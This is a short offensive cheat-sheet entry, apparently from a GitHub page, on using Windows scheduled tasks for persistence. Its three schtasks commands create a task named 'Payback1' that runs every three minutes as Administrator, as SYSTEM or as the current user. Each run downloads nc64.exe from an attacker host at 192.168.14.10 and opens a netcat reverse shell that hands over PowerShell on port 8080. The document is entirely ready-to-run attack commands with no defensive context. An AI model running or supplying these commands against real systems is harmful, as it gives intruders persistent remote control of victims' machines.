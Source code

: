 ## Tool: Scheduled Tasks (Windows)

To create a scheduled task that runs every 3 minutes, as Administrator, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /ru "Administrator" /rp "password" /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

To create a scheduled task that runs every 3 minutes, as NT Authority/SYSTEM, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /ru "NT Authority\SYSTEM" /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```

To create a scheduled task that runs every 3 minutes, as current user, downloads nc64.exe and sends a reverse shell (PowerShell x64) from the target machine

```powershell
schtasks /create /tn "Payback1" /sc minute /mo 3 /tr "powershell.exe -c wget http://192.168.14.10/nc64.exe -o C:\users\Public\nc64.exe;C:\Users\Public\nc64.exe 192.168.14.10 8080 -e C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe"
```
